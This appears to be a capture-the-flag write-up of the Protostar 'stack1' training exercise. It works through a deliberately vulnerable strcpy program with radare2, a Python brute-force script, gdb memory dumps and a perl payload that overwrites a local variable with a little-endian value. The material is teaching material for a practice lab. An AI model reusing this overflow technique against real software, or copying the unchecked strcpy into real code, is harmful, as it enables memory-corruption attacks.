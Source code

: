 # Protostar Stack1
## Static Analysis
##### Analyse the binary
`r2 -A stack1`
##### Symbols
```
[0x080483b0]> is
[Symbols]
// removed most entries for Brevity
068 0x00000464 0x08048464 GLOBAL   FUNC  115 main
003 0x00000368 0x08048368 GLOBAL   FUNC   16 imp.strcpy
004 0x00000378 0x08048378 GLOBAL   FUNC   16 imp.printf
005 0x00000388 0x08048388 GLOBAL   FUNC   16 imp.errx
006 0x00000398 0x08048398 GLOBAL   FUNC   16 imp.puts
```
##### Familiarity
```
[0x1000015f0]> i
file     stack1
arch     x86
endian   little
```
##### Interesting Strings
```
[0x080483b0]> fs strings;f
0x080485a0 28 str.please_specify_an_argument
0x080485bc 55 str.you_have_correctly_got_the_variable_to_the_right_value
0x080485f3 27 str.Try_again__you_got_0x_08x
```
##### Stack Variables
```
[0x080483b0]> pdf @main
/ (fcn) main 115
|   main (unsigned int arg_8h, int arg_ch);
|           ; arg unsigned int arg_8h @ ebp+0x8
|           ; arg int arg_ch @ ebp+0xc
|           ; var char *src @ esp+0x4
|           ; var char *dest @ esp+0x1c
|           ; var int local_5ch @ esp+0x5c
```
##### Calculate Destination Buffer size
```
var char *dest @ esp+0x1c
var int local_5ch @ esp+0x5c

[0x00000040]> ?vi 0x5c - 0x1c
64

// Same code works in Python
>>> 0x5c - 0x1c
64
```
##### Find Compare instruction
```
0x080484ab      3d64636261     cmp eax, 0x61626364         ; 'dcba'

// EAX,AX,AH,AL : used for I/O port access, arithmetic, interrupt calls,  etc...
```
## strcpy
`man strcpy` tells you:
> SECURITY CONSIDERATIONS
>      The strcpy() function is easily misused in a manner
>      which enables malicious users to arbitrarily change a
>      running program's functionality through a buffer
>      overflow attack.

## Run vulnerable code
```
$ cd /opt/protostar/bin/      
$ ./stack1
stack1: please specify an argument

$ ./stack1 aaaa
Try again, you got 0x00000000

$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Try again, you got 0x00000000
```
##### Brute Force script
```
#!/usr/bin/env python
import os.path

STACK1_BINARY="/opt/protostar/bin/stack1"
MAX_CHARS = 70

if __name__ == "__main__":
    if os.path.isfile(STACK1_BINARY):
        for i in range(1, MAX_CHARS):  # type: int
            test_str = "A" * i

            exit_code = os.system('%s %s' % (STACK1_BINARY, test_str))
            if exit_code != 0:
                print('[*] Error code : ' + str(exit_code) + '\t when passing: ' + str(i) + ' chars')
                exit(exit_code)
    else:
        print('[*] file does not exit')

///////////////////////

Try again, you got 0x00000000
Try again, you got 0x00000000
Try again, you got 0x00000000
Try again, you got 0x00000000
[*] Error code : 6	 when passing: 72 chars

// Code 6 = running this code on MacOS.
// MacOS auto-added stack protections and it detected the Buffer Overflow and quit the app.
```
##### Re-Analyse program
```
$ i=70 | seq -sA $i|tr -d '[:digit:]'

$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Try again, you got 0x41414141

//Overflow starts at Char 65
$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA    
Try again, you got 0x00000041

```
## Debugger
```
(gdb) set disassembly-flavor intel

(gdb) file stack0
Reading symbols from /opt/protostar/bin/stack0...done.

```
#### Breakpoint
Find the offset address that moves Stack Integer into Register:
```
0x080484a7      8b44245c       mov eax, sword [local_5ch]  ; [0x5c:4]=-1 ; '\' ; 92

(gdb)b *0x080484a7

(gdb) r

(gdb) info breakpoints
Num     Type           Disp Enb Address    What
4       breakpoint     keep y   0x080484a7 in main at stack1/stack1.c:18

Breakpoint 4, main (argc=2, argv=0xbffffd24) at stack1/stack1.c:18
18	in stack1/stack1.c
(gdb) x/i $pc
0x80484a7 <main+67>:	mov    eax,DWORD PTR [esp+0x5c]

(gdb) define hook-stop
>x/24wx $esp
>end
(gdb) r
```
##### Set the Overflow
```
(gdb) set args "`perl -e 'print "A"x65;'`"
0xbffffc10:	0xbffffc2c	0xbffffe50	0xb7fff8f8	0xb7f0186e
0xbffffc20:	0xb7fd7ff4	0xb7ec6165	0xbffffc38	0x41414141
0xbffffc30:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc40:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc50:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffffc60:	0x41414141	0x41414141	0x41414141	0x00000041

(gdb) set args "`perl -e 'print "a"x64 . "\x64\x63\x62\x61";'`"
0xbffffc10:	0xbffffc2c	0xbffffe4d	0xb7fff8f8	0xb7f0186e
0xbffffc20:	0xb7fd7ff4	0xb7ec6165	0xbffffc38	0x61616161
0xbffffc30:	0x61616161	0x61616161	0x61616161	0x61616161
0xbffffc40:	0x61616161	0x61616161	0x61616161	0x61616161
0xbffffc50:	0x61616161	0x61616161	0x61616161	0x61616161
0xbffffc60:	0x61616161	0x61616161	0x61616161	0x61626364

(gdb) c

// you have correctly got the variable to the right value
```
## Source code
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
#include <err.h>  // I had to manually add this..

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```
## Learnings
 - [x] If you run the code when the O/S has added in `Stack Protections` you still find clues to when an `Overflow` happens.
 - [x] During Static Analysis I observed the binary was written for a `Little Endian` system. That was important for how you constructed the overflow.  `\x64\x63\x62\x61 = dcba` worked.  If you tried `abcd` order you would have hit: `Try again, you got 0x64636261`.
